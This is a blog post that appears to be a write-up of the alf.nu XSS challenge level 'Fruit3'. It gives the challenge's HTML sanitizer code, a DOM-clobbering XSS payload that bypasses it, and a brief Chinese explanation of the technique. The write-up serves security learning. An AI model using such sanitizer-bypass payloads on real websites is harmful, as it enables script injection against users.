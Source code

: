```yaml
---
layout: post
title:  "alf.nu XSS challenges Write-ups level18 to level29 (part two)"
date:   2020-10-19 21:46:23 +0800
categories: jekyll update
---
```

# alf.nu XSS challenges Write-ups level18 to level29 (part two)

## Fruit3
### code
```javascript
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); i--; }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
### solution
```javascript
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=attributes></form>
```
### background info
这个XSS主要的技术是dom clobbering. (https://portswigger.net/web-security/dom-based/dom-clobbering)。DOM clobbering不仅可以利用dom element来控制window scope的变量, 还可以用form元素的子元素input来污染form scope的变量. 
题中遍历了n.attributes, 其属性"attributes"就被子元素的的input污染了.
在理解这个原理后, 找一个合适的POC就可以了. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet . 注意iframe中autofocus是不能执行的.